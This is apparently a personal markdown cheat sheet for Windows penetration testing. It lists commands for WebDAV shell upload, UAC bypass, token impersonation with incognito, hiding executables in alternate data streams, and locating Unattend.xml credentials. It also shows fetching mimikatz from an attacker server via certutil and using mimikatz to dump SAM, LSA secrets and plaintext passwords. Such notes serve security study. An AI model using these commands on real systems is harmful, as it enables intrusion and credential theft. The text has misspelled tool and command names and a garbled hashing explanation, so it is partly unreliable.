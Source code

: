 ## Frequently Exploited Services
```
Microsoft IIS (internet information services)
WebDAV (WebBased Distributed Authoring and versioning)
RDP (Remote Desktop Protocol)
WinRM (Remote Management)
```

## MicrosoftIIS + WebDAV Exploiting
```
Enumerate using -----     davtest
Upload shell and Exploit using  ------ cadaver
```

## MSFConsole
```
multi/recon/local_exploit_suggester
```
## Kernal Exploits

```
exploit suggester python script --database --systeminfo
```

## Window Privesc
### UACME
```
UAC Bypassing UACME
```
### Access Token Impersonation ( Noted: Access Token are created and managed by "LSASS Local Security Authority SubSystem Service" then attached to userinit.exe)

#### Privilege Required For Impersonation
```
SeAssignPrimaryToken:
SeCreateToken:
SeImpersonatePrivilege:
```
#### Incoginto in Metasploit
```
load incognito
list_tokens -u
impersonate_token "--token---"
```
### Alternate Data Streams ( To hide malicious payload inside the legitimate files' metadata )
```
first create a txt file : "notepad lee.txt"
type "file to hide" > lee.txt:somthing.exe
mklink aname.exe C:\path\to\lee.txt:something.exe
.\aname.exe
```
### Dumping Password Hashes
#### NT NTLM hashes 
```
NT --> Split into seven chunk of character, uppercase them all, DES Algorithm
NTLM --> Case-sensitive, use MD4 algorithms
```

#### Search Password in Window Config files
##### Unattened Window Setup Utility
```
C:\\Windows\Panther\Unattend.xml
C:\\Windows\Panther\Autounattend.xml
```
### Dumping Password Hash with Mimitkaz 
#### Kiwi extension
```
load kiwi (in meterpreter shell)
? for help
```
#### Mimitkaz 
```
upload mimitkaz (from meterpreter) or
python3 -m http.server(Attacker), cerutil -urlcache -split -f http://file/to/download.extension C:\\mimitkatz
```
##### Mimitkaz commands
```
privilege::debug
lsadump::sam
lsadump::secrets
sekurlsa::loggedonpasswords  (Dump loggedon password in plain text)

```
#### Pass the Hashes
easy























